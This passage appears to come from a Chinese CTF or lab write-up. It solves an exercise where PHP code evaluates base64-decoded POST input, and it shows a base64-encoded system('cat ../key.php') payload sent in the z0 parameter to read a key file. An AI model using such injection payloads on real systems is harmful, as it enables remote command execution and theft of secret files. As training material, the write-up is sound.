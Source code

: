 也就是说这段代码会查找到@eval(base64_decode($_POST[z0]));替换整个匹配字符串的内容，且会被当成PHP代码执行

从代码中可以看出这道题有两个参数，z0是关键参数，因此可以利用z0注入，爆破出key

> 构造payload：Hello=123&z0=system('cat ../key.php');
>
> 注：需要把system('cat ../key.php');经过base64编码为c3lzdGVtKCdjYXQgLi4va2V5LnBocCcpOw==
>
> 故，构造真正的payload：Hello=123&z0=c3lzdGVtKCdjYXQgLi4va2V5LnBocCcpOw==

![72718464812](assets/1727184648123.png)

查看网页源代码，发现key3

![72718467513](assets/1727184675131.png)



## 基础题目四：日志分析
